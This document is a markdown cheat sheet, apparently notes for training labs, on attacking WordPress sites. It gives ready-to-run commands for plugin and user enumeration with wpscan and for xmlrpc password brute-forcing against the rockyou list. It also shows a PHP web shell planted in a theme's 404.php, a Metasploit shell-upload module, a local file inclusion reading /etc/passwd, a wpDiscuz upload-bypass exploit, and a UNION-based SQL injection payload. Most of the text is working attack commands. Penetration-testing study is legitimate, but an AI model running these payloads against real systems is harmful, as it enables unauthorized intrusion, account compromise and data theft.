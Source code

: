 ### Footprinting + Enumeration
```bash
wpscan --url $url 
wpscan --url $url -e ap
wpscan --url $url -e vp     <- Vulnerable plugins
wpscan --url $url -e cb     <- Config backups
wpscan --url $url -t 500 -e p --plugins-detection aggressive
curl -s http://metapress.htb/ | grep plugins

wpscan --url $url -e u -t 500    <- Enumerate Users
wpscan --url $url --password-attack xmlrpc -t 500 -U ilfreightwp -P ~/rockyou.txt
```

```bash
curl -s http://trilocor.local | grep WordPress
```

```bash
curl http://inlanefreight.local/robots.txt

User-agent: *
Disallow: /wp-admin/
Allow: /wp-admin/admin-ajax.php
Disallow: /wp-content/uploads/wpforms/

Sitemap: https://blog.inlanefreight.local/wp-sitemap.xml
```
##### Themes + Plugins
WordPress stores its plugins in the `wp-content/plugins` directory. This folder is helpful to enumerate vulnerable plugins. Themes are stored in the `wp-content/themes` directory. These files should be carefully enumerated as they may lead to RCE.

```bash
curl -s http://blog.inlanefreight.local/ | grep themes
curl -s http://metapress.htb/ | grep plugins
```
Visiting `/wp-content/plugins/realplugin` can uncover `readme`'s with the version

##### User enumeration
We can discover users by attempting to login via `/wp-admin` and the error messages they produce. [Good resource](https://gosecure.ai/blog/2021/03/16/6-ways-to-enumerate-wordpress-users/)
```bash
curl http://blog.inlanefreight.local/?rest_route=/wp/v2/users
```

### Exploitation
#### **Login bruteforcing**
Two methods, `xmlrpc`(faster api) and the wp-login.
```bash
wpscan --password-attack xmlrpc -t 500 -U ilfreightwp -P ~/rockyou.txt --url http://ir.inlanefreight.local
```

#### RCE
This is possible with Administrative access to the admin panel. This can be done by adding a single line of PHP code within an unused theme then calling upon it.
This should be on an uncommon page like `404.php`
```php
system($_GET[0]);
```

```bash
curl http://ir.inlanefreight.local/wp-content/themes/twentytwenty/404.php?0=id
```
This can also be done with Metasploit (`rhost` and `vhost`must be set)
```bash
use exploit/unix/webapp/wp_admin_shell_upload 
```


#### Vulnerable Plugins
##### mail-masta
This plugin suffers from two vulnerabilities [unauthenticated SQL injection](https://www.exploit-db.com/exploits/41438) and a [Local File Inclusion](https://www.exploit-db.com/exploits/50226).
```bash
curl -s http://ir.inlanefreight.local/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/etc/passwd
```
##### wpDiscuz
Based on the version number (7.0.4), this [exploit](https://www.exploit-db.com/exploits/49967) has a pretty good shot of getting us command execution. The crux of the vulnerability is a file upload bypass. 
```bash
python3 wp_discuz.py -u http://blog.inlanefreight.local -p /?p=1

curl -s http://blog.inlanefreight.local/wp-content/uploads/2021/08/uthsdkbywoxeebg-1629904090.8191.php?cmd=id
```

#### b2i investor tools
```bash
curl http://ir.inlanefreight.local/wp-content/plugins/wp-business-intelligence/view.php
?t=1337+union+select+1,2,3,group_concat(table_name),5,6,7,8,9,10,11+from+information_schema.tables+where+table_schema=database()--+
```